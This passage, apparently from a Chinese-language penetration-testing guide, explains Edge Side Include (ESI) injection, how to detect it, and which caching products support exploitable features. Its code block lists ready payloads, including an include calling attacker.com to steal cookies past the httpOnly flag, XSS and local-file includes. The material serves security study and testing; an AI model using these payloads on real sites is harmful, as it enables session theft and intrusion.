 存在一个问题，即**缓存信息或动态应用程序**作为内容的一部分可能在下次检索内容时**有所不同**。这就是**ESI**的用途，通过使用ESI标签来指示**需要生成的动态内容**，然后再发送缓存版本。\
如果**攻击者**能够在缓存内容中**注入一个ESI标签**，那么他就能够在文档发送给用户之前**注入任意内容**。

### ESI Detection

以下**头部**在服务器的响应中意味着服务器正在使用ESI：
```
Surrogate-Control: content="ESI/1.0"
```
如果你找不到这个头，服务器**可能仍在使用 ESI**。\
**盲目利用的方法也可以使用**，因为请求应该到达攻击者的服务器：
```javascript
// Basic detection
hell<!--esi-->o
// If previous is reflected as "hello", it's vulnerable

// Blind detection
<esi:include src=http://attacker.com>

// XSS Exploitation Example
<esi:include src=http://attacker.com/XSSPAYLOAD.html>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```
### ESI 利用

[GoSecure 创建了](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) 一个表格，以了解我们可以针对不同 ESI 能力软件尝试的可能攻击，具体取决于支持的功能：

* **Includes**: 支持 `<esi:includes>` 指令
* **Vars**: 支持 `<esi:vars>` 指令。用于绕过 XSS 过滤器
* **Cookie**: 文档 cookies 对 ESI 引擎可访问
* **Upstream Headers Required**: 代理应用程序不会处理 ESI 语句，除非上游应用程序提供头部
* **Host Allowlist**: 在这种情况下，ESI 包含仅可能来自允许的服务器主机，使得 SSRF 例如，仅可能针对这些主机

|         **软件**         | **Includes** | **Vars** | **Cookies** | **Upstream Headers Required** | **Host Whitelist** |
| :----------------------: | :----------: | :------: | :---------: | :---------------------------: | :----------------: |
|            Squid3        |      是      |    是    |     是      |              是               |         否         |
|         Varnish Cache    |      是      |    否    |     否      |              是               |         是         |
|            Fastly        |      是      |    否    |     否      |              否               |         是         |
| Akamai ESI 测试服务器 (ETS) |      是      |    是    |     是      |              否               |         否         |
|          NodeJS esi      |      是      |    是    |     是      |              否               |         否         |
|         NodeJS nodesi    |      是      |    否    |     否      |              否               |      可选          |
